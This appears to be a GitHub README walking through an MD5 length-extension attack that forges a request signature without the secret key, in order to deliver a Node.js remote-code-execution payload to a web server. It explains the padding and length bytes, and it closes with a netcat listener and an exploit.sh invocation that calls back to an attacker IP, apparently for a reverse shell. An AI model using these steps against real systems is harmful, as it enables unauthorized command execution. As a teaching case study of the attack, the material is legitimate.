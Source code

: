 # MD5_Hash_Extender_Attack_Case_Study
This repo shows a case by using MD5 hash extender atttack

Assumptions:  
(1) Assume the signature algorithm on a web app is calculated to be sig=md5hash(api_key|payload).  
If we know the api_key, then we can send the customized payload with its correspnding signature to the web server.  
(2) Assume the web server accepts node js payload, which allows remote command execution with a known api_key. The server accepts the payload as the JSON by POST method.  
```
{"sig":"SOME_MD5HASH","code":"SOME_NODE_JS_PAYLOAD"}
```

## Challenge: what if we don't know the api_key? Can we successfully send the node js RCE paylod to the web server?  

## Solution IDEA: MD5 Hash Extender Attack  

Given the folowings, we can still send the node js RCE payload to the web server even without knowing the api_key.  
### (1) The ini_payload in ini_payload.txt  
- `cat ini_payload.txt`  
```
function hello(name) {
  return 'Hello ' + name + '!';
}

hello('World'); // should print 'Hello World'
```

### (2) The initial signature of the unknown api_key and the ini_payload  
```
md5hash(api_key|ini_payload) = aaa8111b4871b48dc6c0ac4c33ef9e1b  
```

### (3) Given an example api_key as follows, which shows the length of the api_key is 36.  
```d0fd6398-2254-440a-8405-ebaf7cb7cb5d```  
Thus, the total payload length for the unknown api_key and the ini_payload will be  
`echo -n "d0fd6398-2254-440a-8405-ebaf7cb7cb5d|$(cat cmd_default.txt)" | wc -c`  
(Don't forget the character `|` in the signature algorithm.  )
```
140
```

## Procedures of the solution:
Reference: https://github.com/iagox86/hash_extender

### Step (0): Read and understand how MD5 Hash Exterder attack works from the reference above

### Step (1): Get the PADDING bytes and the SIZE_DATA bytes  
There are 140 bytes DATA for the md5 hash function, which means 140*8 = 1120 bits => 0x0460 in hex.  
This means that (64-8) - (140 mod 64) = 44 bytes of paddings (1 at the leading bit and all other zeros) such that  
```
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
```
We also have the 8-byte little-endian length field:  
```
\x60\x04\x00\x00\x00\x00\x00\x00
```
Then, we have 140 bytes DATA + 44 bytes PADDING + 8 bytes SIZE_DATA, this results as total 140+44+8 = 192 bytes in the buffer in the exploit.  

### Step (2): Get the signature that has the append_payload based on the unknown api_key and the ini_payload with the algorithm of md5 hash  
The signature of the append_payload can be calcualted by pushing the new data into the buffer that contains 192 byts above in the exploit.  

### Step (3): Customize the append_payload. The append_payload POSTed to the serve contains the ini_payload, the PADDING of ini_payload, and the new command. We do not include the 8 byte SIZE_DATA since the server will calculate the final size of append_payload itself.

### Step (4): With the new signature and the append_payload, we can then send those in JSON format by POST method to the server to trigger RCE. There is an example exploit.sh written in bash and C in this repo.
```
chmod +x exploit.sh

nc -nvlp 443

./exploit.sh 192.168.207.153 8000 192.168.49.207 443
```



